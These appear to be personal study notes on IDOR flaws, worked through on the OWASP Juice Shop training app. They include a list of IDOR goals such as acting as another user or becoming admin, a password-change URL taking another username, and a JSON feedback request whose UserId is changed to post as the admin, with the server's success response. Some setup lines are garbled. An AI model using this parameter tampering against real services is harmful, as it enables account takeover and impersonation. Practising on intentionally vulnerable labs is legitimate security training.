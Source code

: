 SOurce foge .net 9.3.1 node 12 linux.tgz
sudo apt get install node.js
sudo apt get install npm
cd juiceshopfolder
npm start
	about:config
	network.proxy_allow_hijacking_locahost = true




# IDOR 
## Insecure direct object reference 

-Log as other person
-Write other persons blog or posts
-Become admin
-Check the log out functionality
-By pass logins
-etc
(most common bugs that we will find)

Creating two accounts and test your account

-Number of cookies (A good tool to analyze it is Cyberchef [Magic option] )

Changing passwords:
www.example.com/changepassword=username+password=password

(here you can change the password from another account selecting another username)

#### Exercises
POSTBOOK hacker 101

## Juice shop ##

First IDOR

`First tip: find the IDOR in leaving customer feedback under someone else's user name`
Solution (intercept the petition with burp and change your email for the admin's email or another user) Of course, must have an account first.
`You successfully solved a challenge: Forged Review (Post a product review as another user or edit any user's existing review.)`

Ups... that one was about feedback of the products. The solution to customer feedback is different

On the customer feedback change this (the user ID): 

```

{"UserId":22,"captchaId":0,"captcha":"4","comment":"caca (***t1@test1.com)","rating":2}
```
for this:
```
{"UserId":1,"captchaId":0,"captcha":"4","comment":"caca (***in@juice-sh.op)","rating":2}
```
response:
```
{"status":"success","data":{"id":9,"UserId":1,"comment":"caca (***in@juice-sh.op)","rating":2,"updatedAt":"2023-10-03T20:44:52.344Z","createdAt":"2023-10-03T20:44:52.344Z"}}
```
